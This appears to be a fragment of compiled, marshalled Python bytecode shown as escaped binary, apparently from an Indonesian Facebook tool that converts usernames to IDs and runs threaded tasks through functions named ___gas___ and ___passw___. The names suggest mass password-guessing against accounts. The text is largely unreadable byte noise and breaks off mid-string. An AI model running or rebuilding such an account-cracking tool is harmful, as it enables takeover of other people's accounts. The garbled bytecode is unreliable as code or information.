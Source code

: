 )\x01\xda\x03endZ\x02cfZ\x02boz\x10/profile.php?id=\xfa\x01&\xfa\x01|\xfa\x01?\xfa\x01/z\x10Lihat Teman Lain)%r\x1d\x00\x00\x00r\x1e\x00\x00\x00r"\x00\x00\x00r#\x00\x00\x00rq\x00\x00\x00r\x03\x00\x00\x00r$\x00\x00\x00r%\x00\x00\x00r&\x00\x00\x00r)\x00\x00\x00r\x80\x00\x00\x00r\x7f\x00\x00\x00r[\x00\x00\x00rr\x00\x00\x00rs\x00\x00\x00ru\x00\x00\x00rv\x00\x00\x00rw\x00\x00\x00rx\x00\x00\x00ry\x00\x00\x00rz\x00\x00\x00r{\x00\x00\x00r|\x00\x00\x00r}\x00\x00\x00r~\x00\x00\x00\xda\x03len\xda\x03idk\xda\x04idk2\xda\x03sysr\x0c\x00\x00\x00\xda\x05flush\xda\x07replacert\x00\x00\x00\xda\x06append\xda\x06insert\xda\x11KeyboardInterrupt\xda\x0f___converter___)\x15r\\\x00\x00\x00r\x93\x00\x00\x00Z\x02rrr\x82\x00\x00\x00Z\x03xxxZ\x02ggr\x84\x00\x00\x00r\x85\x00\x00\x00r\x86\x00\x00\x00r\x87\x00\x00\x00r\x88\x00\x00\x00rb\x00\x00\x00r\x89\x00\x00\x00r\x8a\x00\x00\x00Z\x04urls\xda\x01sZ\x03yer\xda\x01jZ\x04namaZ\x05idnyaZ\x04blirr*\x00\x00\x00r*\x00\x00\x00r+\x00\x00\x00r\x92\x00\x00\x00\xa4\x00\x00\x00sp\x00\x00\x00\n\x01\n\x01\x08\x01\x18\x01\x14\x01*\x01\x08\x01\x08\x01\x04\x01\x04\x018\x01\x02\x01\x1c\x01\x0e\x01\n\x01(\x01\x0e\x01\x04\x01\x0c\x01\x0e\x01\x1a\x01\x02\x80"\x01\x02\x80\x04\xf8\x10\t\x12\x01\x02\xff\n\x02\x02\x01&\x01\x0e\x01\x1a\x01\x08\x02\x1c\x01\x0e\x01\x0e\x01\x0c\x02\x08\x01\x06\x01\x0e\x01\x1e\x01\x18\x01\x1e\x02\x18\x01\x04\x01\x0e\x01\x0c\x01\x18\x01\x08\x01\x04\x80\x12\x01\x04\x80\x1c\x01\x08\xe6\x0c\x1br\x92\x00\x00\x00c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\t\x00\x00\x00C\x00\x00\x00s\xc6\x00\x00\x00t\x00d\x01\x83\x01\x01\x00t\x00d\x02\x83\x01\x01\x00t\x00d\x03\x83\x01\x01\x00t\x01t\x02d\x04\x83\x01t\x03d\x05\x83\x01t\x04\x83\x00t\x03d\x06\x83\x01\x83\x04a\x05t\x05j\x06d\x03t\x07t\x08\x83\x01d\x07\x8d\x02a\tt\x05\x8f0\x01\x00t\nd\x08d\t\x8d\x01\x8f\x1b}\x01t\x08D\x00]\x10}\x02|\x02\xa0\x0bd\n\xa1\x01\\\x02}\x03}\x04|\x01\xa0\x0ct\r|\x03|\x04\xa1\x03\x01\x00q.W\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00n\x081\x00sIw\x01\x01\x00\x01\x00\x01\x00Y\x00\x01\x00W\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00n\x081\x00sXw\x01\x01\x00\x01\x00\x01\x00Y\x00\x01\x00t\x0e|\x00\x83\x01\x01\x00d\x00S\x00)\x0bNu<\x00\x00\x00\n\xe2\x80\xa2 Sedang Meng-convert Username Ke Id, Tunggu Sebentar ...u5\x00\x00\x00\xe2\x80\xa2 Proses Mungkin Membutuhkan Waktu Yang Cukup Lama.r+\x00\x00\x00Z\x06smiley\xfa\x12{task.description}\xfa/[deep_pink3]{task.percentage:.0f}%[/deep_pink3]\xa9\x01Z\x05total\xe9\x1e\x00\x00\x00\xa9\x01Z\x0bmax_workersr\x98\x00\x00\x00)\x0fr#\x00\x00\x00r\x04\x00\x00\x00r\x07\x00\x00\x00r\x06\x00\x00\x00r\x05\x00\x00\x00\xda\x03tot\xda\x08add_taskr\x9b\x00\x00\x00r\x9d\x00\x00\x00\xda\x03tut\xda\x04poolrt\x00\x00\x00\xda\x06submit\xda\t___gas___\xda\x0b___passw___)\x05r\\\x00\x00\x00Z\x03asu\xda\x01z\xda\x03idd\xda\x04namir*\x00\x00\x00r*\x00\x00\x00r+\x00\x00\x00r\xa4\x00\x00\x00\xd9\x00\x00\x00s\x1e\x00\x00\x00\x08\x02\x08\x01\x08\x01\x1c\x01\x12\x01\x06\x01\x0c\x01\x08\x01\x0e\x01\x10\x01\x02\xfe\x1c\xff\x02\x80\x1c\xff\x0c\x05r\xa4\x00\x00\x00c\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x0b\x00\x00\x00C\x00\x00\x00s\xe4\x00\x00\x00t\x00j\x01t\x02d\x01t\x03t\x04\x83\x01\x9b\x00d\x02t\x03t\x05t\x06\x83\x01\x83\x01\x9b\x00d\x03t\x03t\x07\x83\x01\x9b\x00d\x04t\x03t\x08\x83\x01\x9b\x00d\x05\x9d\td\x06\x8d\x02\x01\x00t\t\xa0\n\xa1\x00}\x02d\x07d\x08i\x01}\x03z*t\x0b|\x02j\x0cd\t|\x03d\n|\x00\x9b\x00\x9d\x02d\x0bd\x0c\x9c\x02d\r\x8d\x03j\rd\x0e\x83\x02}\x04|\x04j\x0ed\x0fd\x10d\x11\x8d\x02}\x05t\x0f\xa0\x10|\x05j\r\x9b\x00d\x12|\x01\x9b\x00\x9d\x03\xa1\x01\x01\x00t\x07d\x137\x00a\x07W\x00n\x16\x04\x00t\x11yf\x01\x00}\x06\x01\x00z\nt\x08d\x137\x00a\x08W\x00Y\x00d\x00}\x06~\x06n\x05d\x00}\x06~\x06w\x01w\x00t\x04d\x137\x00a\x04t\x00\xa0\x12t\x02\xa1\x01\x01\x00d\x00S\x00)\x14Nz![deep_pink3]Convert[/deep_pink3] r\x9a\x00\x00\x00z\x15 Succ:-[bright_green]z#[/bright_green]
